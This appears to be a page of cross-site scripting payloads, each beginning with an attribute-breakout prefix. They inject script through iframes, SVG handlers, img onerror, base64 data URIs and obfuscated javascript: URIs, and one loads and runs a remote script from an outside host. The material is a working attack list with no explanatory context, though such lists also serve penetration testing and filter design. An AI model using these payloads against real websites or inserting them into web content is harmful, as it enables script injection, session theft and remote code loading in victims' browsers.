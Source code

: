 ```
cgonzalo"><iframe src=""/srcdoc='<svg onload=alert(1)>'>

cgonzalo"><img/id="alert('XSS')\"/alt=\"/\"src=\"/\"onerror=eval(id)>

cgonzalo"><img src=1 onerror="s=document.createElement('script');s.src='http://xss.rocks/xss.js';document.body.appendChild(s);"

cgonzalo"><svg><animate onbegin=alert() attributeName=x></svg>

cgonzalo"><object data="data:text/html,<script>alert(5)</script>">

cgonzalo"><iframe srcdoc="<svg onload=alert(4);>">

cgonzalo"><object data=javascript:alert(3)>

cgonzalo"><iframe src=javascript:alert(2)>

cgonzalo"><embed src=javascript:alert(1)>

cgonzalo"><embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+" type="image/svg+xml" AllowScriptAccess="always"></embed>

cgonzalo"><embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>

cgonzalo"><a href="https://example.com/lol%22onmouseover=%22prompt(1);%20img.png">Click</a>
```

### Best Payloads

```
cgonzalo"><a href=ja&#x0000A;va&#x73;cript&colon;al&#x65;rt``>

cgonzalo"><a href="https://bing.com/" title="title">xss <img onerror=alert(1) src=x></a>

cgonzalo"><a href="https://gitlab.com/wbowling/private-project/-/issues/1" title="title">xss &lt;img onerror=alert(1) src=x></a>

cgonzalo"><svg/onload=write('\74img/src/o\156error\75alert\501\51\76')>

cgonzalo"><iframe/onload=import(/\\Ǌ.₨/)>

cgonzalo"><svg/onload=&#97&#108&#101&#114&#00116&#40&#41&#x2f&#x2f

cgonzalo"><input onfocus=alert(document.domain) </autofocus>

cgonzalo"><embed src=# onload=confirm(8)>

cgonzalo"><input type="datetime-local"</onchange=alert(8)//

cgonzalo"><img src=x onerror=eval(atob('YWxlcnQoJ0kgb25seSB3cml0ZSBsYW1lIFBvQ3MnKQ==')) />

cgonzalo"><x/ onpointerRawupdatE=+alert&#40;document.domain&#41;>Tocuch me!

cgonzalo"><img src='1' onerror='alert(0)' <

cgonzalo"><svg/onload=location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;//

cgonzalo"><img src=1 alt=al lang=ert onerror=top[alt+lang](0)>

cgonzalo"><script ~~~>confirm(1)</script ~~~>
```
